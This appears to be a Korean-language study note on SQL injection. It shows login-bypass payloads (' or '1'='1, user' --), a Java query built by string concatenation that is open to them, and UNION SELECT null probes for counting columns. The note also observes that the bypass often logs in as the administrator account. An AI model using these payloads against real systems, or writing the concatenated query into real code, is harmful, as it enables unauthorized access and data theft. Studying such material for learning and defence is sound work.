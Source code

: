 <br />

### 공격 방법

```sql
' or '1'='1
```

- 위 처럼 쿼리문 중간에 들어갔을 때 항상 참이 되는 구문을 입력

```java
"SELECT * FROM [USERTABLE] WHERE ID ='" + ID + "' AND PW ='" + PW + "'";
```

위와 같은 코드에 들어가면

```java
"SELECT * FROM [USERTABLE] WHERE ID ='' or '1'='1' AND PW ='' or '1'='1'";
```

이렇게 항상 참일수 밖에 없는 조건식이 완성 된다.

<br/>

- ID, PW 중 하나를 넣고 사용해도 인증 우회가 가능하고 둘 다 넣을 경우 가장 먼저 가입 된 계정으로 로그인 된다.
  - 보통 관리자 계정을 가장 먼저 생성하기 때문에 관리자 계정으로 로그인 될 확률이 높다.

<br />

```sql
user' --
```

- 또는 위 처럼 ID 검증 이후의 쿼리문 을 주석처리하여 PW 검증 없이 로그인 가능

```java
"SELECT * FROM [USERTABLE] WHERE ID ='" + ID + "' AND PW ='" + PW + "'";
```

위와 같은 코드에 들어가면

```java
"SELECT * FROM [USERTABLE] WHERE ID ='user' --' AND PW =;
```

 `--`이후의 문장은 주석처리 되어 비밀번호 검증 없이 로그인이 가능하다

<br />

### 1.컬럼 개수 알아내기

```sql
'or'1'='1' union select null --
'or'1'='1' union select null,null--
'or'1'='1' union select null,null,null--
'or'1'='1' union select null,null,null,null--
```

- ID입력창에 에러페이지가 나오지 않을 때까지 반복

- 안나오면 null 개수가 컬럼의 수
